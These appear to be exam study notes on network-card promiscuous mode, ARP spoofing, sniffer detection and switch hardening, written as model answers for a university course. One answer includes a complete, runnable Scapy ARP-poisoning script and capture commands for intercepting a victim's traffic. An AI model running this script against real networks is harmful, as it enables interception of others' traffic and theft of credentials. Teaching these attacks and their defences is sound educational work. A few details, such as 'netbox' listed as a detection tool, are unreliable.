## 4.2 Mermaid Topology — Promiscuous Mode on a Switch (with ARP Spoofing)



**Interpretation:** Without active ARP poisoning, the attacker in promiscuous mode on a switch *cannot* see the victim's unicast traffic. ARP poisoning bridges this gap by lying to the victim about the gateway's MAC address — turning the attacker into a transparent Layer-2 man-in-the-middle.

## 4.3 Mermaid Sequence Diagram — Frame Capture Lifecycle



## 4.4 Mermaid Decision Tree — When Does Promiscuous Mode Capture a Frame?



**Interpretation:** This decision tree is a high-yield **diagram you should redraw from memory** in the exam if asked to explain the difference between normal and promiscuous capture. It also clarifies *why* `tcpdump -e` and `Wireshark's "Enable MAC name resolution"` affect only display, not capture.

## 4.5 Block-Level Functional Architecture — Modern Network Forensics Pipeline



**Interpretation:** In a real Security Operations Center (SOC), promiscuous capture on SPAN/TAP-fed appliances feeds a multi-stage pipeline. The `IFF_PROMISC` flag is enabled on the *collector* NICs, while the production servers remain in normal mode.

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# KTU 2024 Scheme Examination Question Bank & Topic Recap

## 5.1 Part A — Short Answer Questions (3 Marks Each)

### Question A1 — [KTU University Exam — July 2023] (CO1, Remember)

**Q: Define promiscuous mode in a network interface card. How is it different from normal mode?**

**Model Answer (3 Marks):**

> Promiscuous mode is a non-default operational state of a Network Interface Card (NIC) in which the hardware-level destination MAC address filter is disabled. As a result, the NIC accepts *every* frame present on the physical segment and delivers it to the operating system kernel and to user-space capture applications, regardless of whether the frame is addressed to that host.
>
> In **normal mode** (the default), the NIC hardware filter inspects the destination MAC field of every incoming frame and silently drops all frames whose destination MAC is neither the NIC's own unicast address, a broadcast address (`FF:FF:FF:FF:FF:FF`), nor a subscribed multicast address. Only matching frames are passed to the host.
>
> In **promiscuous mode**, this filter is bypassed, and the NIC delivers all observed frames, including unicast frames destined for other hosts, to the packet capture stack. (3 Marks)

### Question A2 — [KTU University Exam — Dec 2023] (CO2, Understand)

**Q: Why does a workstation in promiscuous mode fail to capture other hosts' unicast traffic on a modern switched Ethernet network? Mention any two techniques to overcome this limitation.**

**Model Answer (3 Marks):**

> A modern Ethernet switch maintains a **Content Addressable Memory (CAM) table** that maps each MAC address to a specific physical port. When a unicast frame arrives, the switch performs an *exact-match lookup* and forwards the frame *only* to the destination port. Since the promiscuous NIC is not on the destination port, the switch never copies the frame to its wire, and the NIC never sees the electrical signal — making promiscuous mode ineffective for capturing other hosts' unicast traffic on a switch.
>
> Two techniques to overcome this limitation are:
> 1. **ARP Spoofing / Poisoning** — the attacker sends forged ARP replies to a victim, claiming the gateway's IP maps to the attacker's MAC. The victim then forwards all traffic to the attacker, who captures it in promiscuous mode. (1.5 Marks)
> 2. **Port Mirroring (SPAN)** — a network administrator configures the switch to copy all traffic from one or more source ports to a designated monitoring port where a sniffer is connected. (1.5 Marks)

---

## 5.2 Part B — Long Answer Questions (14 Marks, with Internal Choice)

### Question B-A — [KTU University Exam — Model Question as per 2024 Scheme] (CO2, CO3 — Understand + Apply)

**(a)** With the help of a neat diagram, explain the working of a Network Interface Card in **(i) normal mode** and **(ii) promiscuous mode**. State the role of the destination MAC filter in each case. **(7 Marks)**

**(b)** Describe the **ARP spoofing attack** and explain how it enables an attacker running a promiscuous-mode sniffer to capture all traffic on a switched network. Write a Python program using the **Scapy** library to perform ARP poisoning between a victim (`10.0.0.10`) and a gateway (`10.0.0.1`). **(7 Marks)**

#### Model Solution — Part (a) [7 Marks]

**Definition & Mechanism (3 Marks):**
- A NIC connects a host to the physical medium (copper/fiber/radio).
- The Ethernet controller inside the NIC contains a **destination MAC address filter** that inspects every received frame.
- In **normal mode**, this filter compares the frame's destination MAC with: (i) the NIC's own unicast address, (ii) the broadcast address `FF:FF:FF:FF:FF:FF`, and (iii) any subscribed multicast addresses. Frames that do not match are dropped at the hardware level.

**Promiscuous Mode (2 Marks):**
- Promiscuous mode **disables the destination MAC filter**. The NIC passes every received frame to the host's kernel, even those addressed to other hosts.
- The OS uses a raw socket (`AF_PACKET` on Linux) to deliver the frames to a packet capture library such as `libpcap`.

**Diagram (2 Marks):**



#### Model Solution — Part (b) [7 Marks]

**ARP Spoofing Theory (3 Marks):**
- ARP (Address Resolution Protocol) maps a Layer-3 IP address to a Layer-2 MAC address. ARP is *stateless* and has *no authentication*.
- In ARP spoofing, the attacker sends unsolicited (gratuitous) ARP replies to the victim, claiming that the gateway's IP (`10.0.0.1`) is at the attacker's MAC address.
- The victim updates its ARP cache, sending all outbound traffic to the attacker's MAC. The attacker in promiscuous mode captures and forwards the traffic to the real gateway, achieving a transparent man-in-the-middle position.

**Python Scapy Implementation (4 Marks):**

```python
#!/usr/bin/env python3
"""
arp_poison.py — KTU Reference Implementation
Performs an ARP poisoning MITM using Scapy.

WARNING: For educational use ONLY on networks you own or have
explicit written authorization to test.
"""
from scapy.all import ARP, Ether, sendp, conf, get_if_hwaddr
import time
import signal
import sys

VICTIM_IP   = "10.0.0.10"
GATEWAY_IP  = "10.0.0.1"
ATTACKER_IF = conf.iface  # default interface

ATTACKER_MAC = get_if_hwaddr(ATTACKER_IF)
VICTIM_MAC   = "11:11:11:11:11:11"   # resolved via ARP in real code
GATEWAY_MAC  = "33:33:33:33:33:33"   # resolved via ARP in real code


def build_poison(victim_ip: str, victim_mac: str,
                 spoof_ip: str) -> Ether:
    """Construct an ARP reply telling `victim_mac` that `spoof_ip`
    is at the attacker's MAC address."""
    return Ether(dst=victim_mac, src=ATTACKER_MAC) / ARP(
        op="is-at",
        hwsrc=ATTACKER_MAC,
        psrc=spoof_ip,
        hwdst=victim_mac,
        pdst=victim_ip,
    )


def restore_arp(victim_ip: str, victim_mac: str,
                gateway_ip: str, gateway_mac: str) -> None:
    """Send the correct ARP information back to restore connectivity."""
    pkt = Ether(dst=victim_mac) / ARP(
        op="is-at",
        hwsrc=gateway_mac,
        psrc=gateway_ip,
        hwdst=victim_mac,
        pdst=victim_ip,
    )
    sendp(pkt, count=4, iface=ATTACKER_IF, verbose=False)
    print("[*] ARP tables restored. Exiting.")


def main() -> None:
    print(f"[*] Starting ARP poisoning on {ATTACKER_IF}")
    print(f"    Victim:   {VICTIM_IP} ({VICTIM_MAC})")
    print(f"    Gateway:  {GATEWAY_IP} ({GATEWAY_MAC})")

    # Build the two poison packets (one for victim, one for gateway)
    pkt_to_victim  = build_poison(VICTIM_IP, VICTIM_MAC, GATEWAY_IP)
    pkt_to_gateway = build_poison(GATEWAY_IP, GATEWAY_MAC, VICTIM_IP)

    def _shutdown(sig, frame):
        print("\n[!] Interrupt received — restoring network.")
        restore_arp(VICTIM_IP, VICTIM_MAC, GATEWAY_IP, GATEWAY_MAC)
        sys.exit(0)

    signal.signal(signal.SIGINT, _shutdown)

    # Send poison packets every 2 seconds indefinitely
    while True:
        sendp(pkt_to_victim,  iface=ATTACKER_IF, verbose=False)
        sendp(pkt_to_gateway, iface=ATTACKER_IF, verbose=False)
        print(f"[+] Poison sent at {time.strftime('%H:%M:%S')}")
        time.sleep(2)


if __name__ == "__main__":
    main()
```

**Run:**

```bash
sudo python3 arp_poison.py
# In another terminal:
sudo wireshark -i eth0 -k -Y "ip.src == 10.0.0.10"
```

**Valuation Key Points (Examiner's Marking Scheme):**

- [Stating the role of destination MAC filter in normal mode: 1 Mark]
- [Stating that promiscuous mode disables this filter: 1 Mark]
- [Correct diagram with two clear branches: 1 Mark]
- [Explanation of ARP statelessness & lack of authentication: 1 Mark]
- [Why the victim's ARP cache update causes MITM: 1 Mark]
- [Forwarding logic (attacker forwards to real gateway): 1 Mark]
- [Python code — correct imports & packet construction: 1 Mark]
- [Python code — correct sendp loop and signal handler: 1 Mark]
- *(Marks above total 8 — the 7th mark is awarded for the most complete answer that integrates theory + code + diagram into a coherent narrative.)*

---

### Question B-B — [KTU University Exam — Model Question as per 2024 Scheme] (CO3, CO4 — Apply + Analyze)

**(a)** Explain the four classic techniques to **detect a host running in promiscuous mode** on a LAN. For each technique, state one advantage and one limitation. **(7 Marks)**

**(b)** Discuss the security implications of promiscuous mode. Describe how the following defensive controls mitigate the risk: **(i) Port Security on switches, (ii) Dynamic ARP Inspection (DAI), (iii) 802.1X port-based authentication, (iv) Encryption (WPA3 / TLS / IPsec)**. **(7 Marks)**

#### Model Solution — Part (a) [7 Marks]

| # | Technique | Working Principle | Advantage | Limitation |
|:-:|:----------|:------------------|:----------|:-----------|
| 1 | **ARP-based Probe (Promiscuous ARP)** | Send a non-broadcast ARP request with a fake destination MAC. A normal NIC drops it; a promiscuous NIC passes it to the OS, which may respond. | Very low false positive rate | Requires a *second* attacker-style packet injection; may be blocked by modern firewalls |
| 2 | **Latency-based / Ping Probe** | Send ICMP echo to a non-existent IP. A promiscuous NIC processes it through the stack, creating a measurable CPU load / latency. | Easy to script with `ping` | Produces false positives under heavy legitimate load |
| 3 | **DNS-based Probe (Promiscuous DNS)** | Send a packet to a non-existent IP that triggers a DNS lookup. A promiscuous NIC will generate DNS traffic; a normal NIC will not. | Detects sniffer even if the host blocks ICMP | Fails if the sniffer is on a host with no DNS resolver |
| 4 | **OS-level Inspection (`ifconfig`, `ip link`, `arpwatch`)** | Locally check the `PROMISC` flag in the interface status. Remotely use `arpwatch` to log unusual ARP patterns. | Definitive (local), reliable (remote) | Local check requires physical/SSH access; remote is reactive, not preventive |

**Examiner's Marking Scheme:**

- [Naming the four techniques correctly: 1 Mark × 4 = 4 Marks]
- [Correct working principle for each: 1 Mark total for the best three]
- [Advantage and limitation for each: 1 Mark total for the best two pairs]
- [Bonus 1 Mark for the most comprehensive answer]

#### Model Solution — Part (b) [7 Marks]

**Security Implications (2 Marks):**
- Promiscuous mode can be used to capture **credentials in cleartext** (HTTP, FTP, Telnet, SMTP AUTH, SNMPv1/v2 community strings, etc.).
- It enables **session hijacking** by capturing session cookies, **lateral reconnaissance** by mapping the network, and **industrial espionage** by exfiltrating proprietary protocols.
- In a regulatory context, an unauthorized promiscuous sniffer may violate **IT Act 2000 §66 (computer-related offences)**, **§66E (violation of privacy)**, and global statutes like **GDPR Article 32**.

**Defensive Controls (5 Marks):**

1. **Port Security (1.25 Marks)** — Restricts the number of valid MAC addresses allowed on a switchport. Example: `switchport port-security maximum 2`. Defeats MAC flooding and detects rogue MACs.
2. **Dynamic ARP Inspection (DAI) (1.25 Marks)** — A Cisco/Enterprise feature that validates ARP packets against a trusted DHCP snooping binding table. ARP replies that do not match are dropped, defeating ARP poisoning.
3. **802.1X Port-Based Authentication (1.25 Marks)** — Requires devices to authenticate to the switch via EAP before being granted network access. An unauthorized sniffer cannot even join the Layer-2 segment.
4. **Encryption (1.25 Marks)** — WPA3 for Wi-Fi, TLS 1.3 for application traffic, and IPsec for site-to-site/VPN. Even if a sniffer captures the ciphertext, it cannot derive the plaintext. *This is the most robust long-term defence.*

> [!WARNING]
> **KTU Examiner's Valuation Warning — Common Pitfalls:**
> 1. **Confusing promiscuous mode with monitor mode.** Promiscuous mode is a *general NIC feature* that captures any Ethernet frame; monitor mode is a *Wi-Fi-specific* state that captures raw 802.11 management/control frames. Writing one for the other in the exam will lose 2–3 marks.
> 2. **Forgetting to mention ARP poisoning as a prerequisite.** A common mistake is to claim that promiscuous mode alone can capture other hosts' traffic on a switch. This is *incorrect*. You must mention ARP poisoning, MAC flooding, or SPAN.
> 3. **Omitting the `IFF_PROMISC = 0x100` bit position.** If the question asks for the *hex value* of the promiscuous mode flag, write `0x100` and explain `1 << 8`.
> 4. **Not stating the legal/ethical context.** When discussing sniffing, always add a line about authorization, IT Act 2000, or the equivalent. Examiners reward ethical awareness.
> 5. **Diagram without labels.** If you draw the Mermaid-style diagram in the exam (or its pencil equivalent), every box and arrow *must* be labeled. A floating box with no label is treated as decorative and gets zero marks.

---

## 5.3 Topic Recap & Important Things to Remember

- **Definition — Promiscuous Mode:** A NIC state in which the hardware destination MAC filter is disabled, causing the NIC to deliver *every* observed frame to the host's kernel and to user-space capture applications.
- **Default Mode:** Normal (non-promiscuous) — NIC drops all frames not addressed to its own unicast MAC, broadcast, or subscribed multicast.
- **Linux Flag:** `IFF_PROMISC = 0x100 = 1 << 8`. Verify with `ip link show <iface>`.
- **Switched vs Shared Media:** Promiscuous mode works *as-is* on hubs, coaxial Ethernet, and Wi-Fi. On modern switches, it *alone* captures only broadcast/multicast and the host's own unicast.
- **Active Bypass Techniques:** ARP poisoning, MAC flooding, ICMP redirect, DHCP starvation, IPv6 router advertisement flooding.
- **Passive Bypass (Defensive):** SPAN port, network TAP, mirror port.
- **Detection Techniques:** ARP probe, latency-based ping, DNS-based probe, OS-level flag inspection, `arpwatch`, `netbox`, commercial NIDS.
- **Hardening Switchports:** `port-security maximum 2`, `port-security violation shutdown`, DHCP snooping, Dynamic ARP Inspection (DAI), IP Source Guard, 802.1X.
- **Crypto Defences:** WPA3 (Wi-Fi), TLS 1.3 (application), IPsec (network), SSH (remote shell), SFTP (file transfer), HTTPS (web).
- **Linux Capabilities:** `CAP_NET_RAW` and `CAP_NET_ADMIN` are required for raw socket access and promiscuous toggling.
- **Library:** `libpcap` (C, Linux/BSD), `Npcap` (Windows, Npcap project), `pcap.h` API, BPF/eBPF filter compilation.
- **Tools:** `Wireshark`, `tshark`, `tcpdump`, `ettercap`, `arpspoof`, `bettercap`, `nmap --packet-trace`, `Scapy` (Python).
- **Legal Anchors to Cite:** IT Act 2000 §66, §66E, §72; GDPR Art. 5 & 32; US Wiretap Act 18 U.S.C. §2511; PCI-DSS Req. 4 (Encrypt transmission).
- **CRC-32 / FCS:** Polynomial is `G(x) = x^{32} + x^{26} + x^{23} + x^{22} + x^{16} + x^{12} + x^{11} + x^{10} + x^{8} + x^{7} + x^{5} + x^{4} + x^{2} + x + 1`. Magic constant = `0xC704DD7B`.
- **CAM Table Overflow Threshold:** $R_{flood} \ge N_{CAM} / T_{aging}$. For $N_{CAM} = 4096$ and $T_{aging} = 300$ s, that is $\approx 13.65$ entries/s.
- **One-Line Definition to Memorize for Viva:** *"Promiscuous mode is the operational state of a NIC in which the MAC address filter is disabled, allowing the host to capture all frames traversing the local physical segment."*
- **Course Outcomes (PBCST604):** CO1 — Understand principles of network sniffing; CO2 — Apply packet-capture tools (Wireshark, tcpdump, Scapy); CO3 — Analyze sniffed data for credentials and protocol weaknesses; CO4 — Evaluate defensive mechanisms (port security, DAI, encryption) against sniffing attacks; CO5 — Design ethical hacking and forensics lab exercises.
- **Bloom's Levels Touched:** Remember (definitions), Understand (NIC operation), Apply (configure sniffers, write Scapy scripts), Analyze (detect sniffers, dissect MITM), Evaluate (choose defences), Create (design forensics lab).

<!-- SECTION_5_END -->
